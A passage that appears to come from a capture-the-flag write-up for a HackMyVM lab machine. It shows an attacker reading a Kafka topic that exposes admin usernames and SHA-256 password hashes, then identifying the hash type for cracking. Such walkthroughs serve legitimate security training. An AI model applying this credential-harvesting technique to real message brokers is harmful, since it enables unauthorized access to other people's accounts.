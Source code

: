 `./kafka-console-consumer.sh --bootstrap-server localhost:9092 --topic users.properties --from-beginning`:
```
{"username": "root", "password": "e2f7a3617512ed81aa68c7be9c435609cfb513b021ce07ee9d2759f08f4d9054", "email": "root@metamorphose.hmv", "role": "admin"}

[...]

{"username": "melbourne", "password": "a08aa555a5e5b7a73125cf367176ce446eb1d0c07a068077ab4f740a8fded545", "email": "melbourne@metamorphose.hmv", "role": "admin"}

[...]

{"username": "coralie", "password": "9bf4bc753cfb7e1abafb74ec6e3e22e7d47622d2f39a2652b405d34fd50f023e", "email": "coralie@metamorphose.hmv", "role": "admin"} ←

[...]
```

![Attacker](https://custom-icon-badges.demolab.com/badge/Attacker-e57373?logo=kali-linux_white_32&logoColor=white)

`hash-identifier`:
```
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 9bf4bc753cfb7e1abafb74ec6e3e22e7d47622d2f39a2652b405d34fd50f023e

Possible Hashs:
[+] SHA-256 ←
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
--------------------------------------------------
```
